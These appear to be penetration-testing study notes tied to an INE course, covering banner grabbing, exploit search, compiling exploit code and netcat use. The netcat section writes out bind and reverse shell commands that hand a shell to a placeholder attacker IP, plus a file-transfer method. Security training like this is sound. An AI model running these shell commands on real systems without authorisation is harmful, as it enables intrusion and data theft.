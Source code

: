 # Miscellaneous 

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

## Banner Grabbing

```
nmap -sV
```
```
nmap --script=banner
```
```
nc [IP-ADDRESS] [PORT]
```

* attempt to logon to a service to see welcome banner

***********************************************************************

## nmap scripts

* https://nmap.org/book/nse.html  

```
ls -al /usr/share/nmap/scripts/
```

***********************************************************************

## Searching for Exploits

* Exploit-DB
   * SearchSploit
* Rapid7
* Packet Storm

***********************************************************************

## Compiling C Code

### For Windows
* x64:
```
i686-w64-mingw32-gcc [C-CODE] -o [OUTFILE]
```
* x86:
```
i686-w64-mingw32-gcc [C-CODE] -o [OUTFILE] -lws2_32
```

### For Linux
```
gcc -pthread [C-CODE] -o [OUTFILE] -lcrypt
```

Pre-Compiled C Code:  

* https://gitlab.com/exploit-database/exploitdb-bin-sploits

***********************************************************************

## Netcat

Connect to port:
```
nc -nv [TARGET-IP] [PORT]
```
*You can use the -u flag to connect to a UDP port*

nc.exe is built into Kali. You can transfer it to a windows machine by any means. It is located at:
```
/usr/share/windows-binaries/
```

Set up Simple HTTP Server via Python:
```
python -m SimpleHTTPServer [PORT]
```

Set up a nc listener:
```
nc -lnvp [PORT]
```
*You can use the -u flag to listen to a UDP port*

Transfer file via Netcat:  
* On receiving machine (THIS MUST BE SET UP FIRST):
```
nc -lnvp [PORT] > [IN-FILE]
```
*[IN-FILE] Does not have to be the same name as [OUT-FILE], which means you can change the name of the file (while keeping contents the same) when transferring the [OUT-FILE] from the sending machine to the receiving machine.*

* On sending machine (THIS MUST BE SET UP SECOND):
```
nc -nv [RECEIVING-IP] [RECEIVING-PORT] < [OUT-FILE]
```

### Bind Shells

*Attacker connects to target*

* use -e [EXECUTABLE] on nc listener (Target) machine

Examples:

Windows:
```
nc.exe -lnvp [PORT] -e cmd.exe
```

Linux:
```
nc -lnvp [PORT] -e /bin/bash
```

### Reverse Shells

*Target connects to attacker*

* use -e [EXECUTABLE] on nc (Target) machine

Examples:

Windows:
```
nc.exe -nv [ATTACK-IP] [PORT] -e cmd.exe
```

Linux:
```
nc -nv [ATTACK-IP] [PORT] -e /bin/bash
```

*Reverse Shells do not have to use netcat. Other options are available*

Reverse Shell Cheatsheet:  
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

Reverse Shell Generator: 
* https://www.revshells.com/



***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2